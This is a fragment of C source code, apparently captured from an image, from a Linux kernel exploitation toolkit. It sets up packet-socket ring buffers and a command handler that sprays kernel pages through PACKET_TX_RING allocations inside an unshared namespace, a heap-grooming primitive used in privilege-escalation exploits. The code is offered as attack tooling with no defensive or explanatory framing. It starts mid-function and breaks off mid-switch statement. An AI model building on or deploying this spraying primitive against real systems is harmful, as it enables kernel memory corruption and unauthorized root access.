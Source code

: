 ```c
    struct tpacket_req req;
    int ret;
    
    memset(&req, 0, sizeof(req));
    req.tp_block_size = 0x3361626e;
    req.tp_block_nr = 0;
    req.tp_frame_size = 0x74747261;
    req.tp_frame_nr = 0;

    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        log_error("[x] failed at setsockopt(PACKET_TX_RING)");
        goto err_setsockopt;
    }

    return 0;

err_setsockopt:
    return ret;
}

void spray_cmd_handler(void)
{
    struct pgv_page_request req;
    int socket_fd[PGV_SOCKET_MAX_NR];
    int ret;

    /* create an isolate namespace*/
    if (unshare_setup()) {
        err_exit("FAILED to initialize PGV subsystem for page spraying!");
    }

    memset(socket_fd, 0, sizeof(socket_fd));

    /* handler request */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));

        switch (req.cmd) {
        case PGV_CMD_ALLOC_SOCKET:
            if (socket_fd[req.idx] != 0) {
                printf(ERROR_MSG("[x] Duplicate idx request: ") "%d\n",req.idx);
                ret = -EINVAL;
                break;
            }

            ret = create_packet_socket();
            if (ret < 0) {
                perror(ERROR_MSG("[x] Failed at allocating packet socket"));
                break;
            }

            socket_fd[req.idx] = ret;
            ret = 0;

            break;
        case PGV_CMD_ALLOC_PAGE:
            if (socket_fd[req.idx] == 0) {
                printf(ERROR_MSG("[x] No socket fd for idx: ") "%d\n",req.idx);
                ret = -EINVAL;
                break;
            }

```